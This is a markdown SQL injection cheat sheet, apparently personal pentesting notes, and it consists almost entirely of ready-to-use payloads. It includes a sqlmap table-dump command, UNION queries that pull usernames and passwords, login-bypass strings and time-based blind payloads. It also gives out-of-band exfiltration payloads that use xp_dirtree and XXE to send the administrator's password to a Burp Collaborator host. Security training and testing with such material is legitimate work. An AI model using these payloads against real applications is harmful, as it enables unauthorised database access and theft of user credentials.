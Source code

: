 # SQL Injection

## Reflected SQL Injection:</h2>
```bash
sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns
Results:
Database: public
Table: users
[POC]:
https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--
```

### First detect numbers of columns
```sql
' ORDER BY 100-- # Error show columns
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--   # Show columns

' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
' UNION SELECT NULL, NULL, NULL--

# Si obtienes las columnas pero el union no funciona intenta agregar data al principio
test' UNION SELECT 1, db_name(), 3--
...
# Oracle
' UNION SELECT NULL FROM dual--
' UNION SELECT NULL, NULL FROM dual--
' UNION SELECT NULL, NULL, NULL FROM dual--

-- o #

```
### Second Find where holds strings data
```sql
' UNION SELECT 'a', NULL, NULL--
' UNION SELECT NULL, 'a', NULL--
' UNION SELECT NULL, NULL, 'a'--
```
## Version
```http2
Database type 	              Query
Microsoft, MySQL 	    SELECT @@version
Oracle 	                    SELECT * FROM v$version
PostgreSQL 	            SELECT version() 

'UNION SELECT 1,database(),3,4,5--
'UNION SELECT 1,db_name(),3,4,5--
```

## Blind SQL Injection:
```sql
';SELECT PG_SLEEP(5)--
'||pg_sleep(10)--
'SLEEP(2);--
'IF (1=1) waitfor delay '0:0:10'--
```

## Blind SQL injection using out-of-band (OAST) techniques

```sql
'; exec master..xp_dirtree '//SUBDOMAIN.burpcollaborator.net/a'--
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.SUBDOMAIN.burpcollaborator.net/a"')--
```
## SQL Based Errors
```sql
'IF (1=1) waitfor delay '0:0:10'--
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

## SQL Login
In nickname, email and password test for
```html
name'--
pass'--
'+OR+1=1--
'+OR+2=2--
'+OR+5=5--
'+OR+'E'='E'--
```


## Test cookies for "HTTP Request" - Blind:
```http2
  TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### Then for credentials.
```http2
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.
  ```
### CheatSheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
